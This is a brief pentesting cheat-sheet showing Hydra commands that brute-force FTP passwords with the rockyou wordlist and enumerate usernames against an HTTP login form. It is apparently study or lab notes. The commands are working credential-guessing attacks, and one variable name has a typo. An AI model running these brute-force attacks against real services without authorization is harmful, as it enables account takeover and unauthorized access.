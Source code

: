 ## FTP
```bash
hydra -l $user -P $wordlist $url ftp
```

Good wordlist 
```path
/usr/share/wordlists/rockyou.txt
```

## HTTP
```sh
hydra -L $wordlis -p dummyPassword $url http-post-form "/LOGIN_PAGE_PATH:USERNAME_FIELD=^USER^&PASSWORD_FIELD=^PASS^&OTHER_FORM_DATA:F=Invalid username." -V
```